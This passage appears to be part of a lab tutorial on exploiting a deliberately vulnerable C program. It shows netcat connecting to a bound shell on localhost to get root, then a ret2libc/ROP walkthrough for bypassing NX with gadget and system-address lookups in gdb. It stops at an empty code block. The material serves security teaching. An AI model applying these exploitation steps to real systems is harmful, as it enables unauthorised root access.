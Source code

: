 4. Check open ports in other console:
```bash
$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:40819         0.0.0.0:*               LISTEN      2507/Code --standar 
tcp        0      0 0.0.0.0:37915           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -      
```

5. Connect to opened port 37915 and execute arbitrary commands

```bash
$ nc localhost 37915
id
uid=0(root) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
whoami
root
```

## Bypass NX (execstack)
We will use ret2libc trick with ROP chain.
1. Compile stack_overflow_bypass_nx without "-z execstack" flag
2. Check NX is actually enabled
```bash
$ gdb stack_overflow_bypass_nx
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```
3. Search for "pop rdi; ret" gadget (we placed it intentionally to the code, but in large application probably it will be any way), this will be hacked return address:
```bash
$ gdb stack_overflow_bypass_nx
gdb-peda$ b main
gdb-peda$ r
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x0000555555555211 : (b'5fc3')	pop rdi; ret
```
4. Search for "system" function address:
```bash
gdb-peda$ p system
$1 = {int (const char *)} 0x7ffff7850d60 <__libc_system>
```
5. Search for "ret" gadget. It will be used to align stack.
```bash
```